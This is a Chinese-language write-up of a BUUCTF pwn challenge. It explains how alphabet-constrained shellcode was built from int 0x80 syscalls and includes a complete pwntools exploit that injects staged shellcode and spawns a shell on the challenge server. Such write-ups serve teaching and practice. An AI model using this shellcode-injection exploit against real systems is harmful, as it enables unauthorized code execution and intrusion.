 ### XOR 编码注入

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67ba0cf8d0e0a243d4023c61.png)

64IDA 反编译，函数框中搜索关键字定位 main 函数

![](https://pic1.imgdb.cn/item/67ba0d10d0e0a243d4023c62.png)

代码又丑又长又绕，直接说流程吧

1. 输入代码

2. 检查 0,2,4..的奇数位为 0x80-0x7ff 间 1,3,5...的偶数位为 0-0x7f 的acsii字符

3. 调用 3 次 cin 不清楚为啥感觉没啥用,反正返回都是 0 作为 1 参 2 参 3 参，测试都是 0，不清楚输啥能得到参数。感觉是专门为了清寄存器的

难点在于奇数位只能说第 1 字节 110 开头第 2 字节 10 开头

想到有一个人写的 shell 绕过用的 int 0x80 的 32 位调用，在 64 位系统里是可以直接用 32 位的调用的

而参数用 xor eax,eax 这种都是 1+Cx 这种后边补个 nop(0x90) 就OK了

而调用 int 0x80 也不用异或

32 位的调用参数使用 ebx,ecx,edx，中断号 eax，奇跳用 leave;nop 这里的 leave 只能用一次，好在它本身有个链

如果没有就得用 xlatb 这个会破坏 al

好在只用开头用一次，后边在偶数位随便弄个 push 就行

```python
from pwn import *

context(arch='amd64')
 
p = remote('node5.buuoj.cn', 28407)
 
shellcode = '''
leave;nop;
xor al,0xc7;nop;
xor edx,eax;nop;
xor al,0xc4;nop;   /* eax=sys_read=3, edx=0xc7*/
xor ecx,ecx;nop;
xor ecx,ebx;nop;   /* ecx=buf */
xor ebx,ecx;nop;   /* ebx=0 */
push rax;
int 0x80  /* read(0,buf,0xc7) */
'''

b = asm(shellcode)

# 输入会吃掉一位
p.sendlineafter(b"What is your lucky number?\n", b'1' + b)
p.sendafter(b'Leave to fate...\n',b'\n\n\n')
p.send(b'\x90'*0x20+asm(shellcraft.sh()))
p.interactive()
```

![](https://pic1.imgdb.cn/item/68594dd658cb8da5c8682358.png)

成功拿到 flag

![](https://pic1.imgdb.cn/item/67ba137ed0e0a243d4023c9d.png)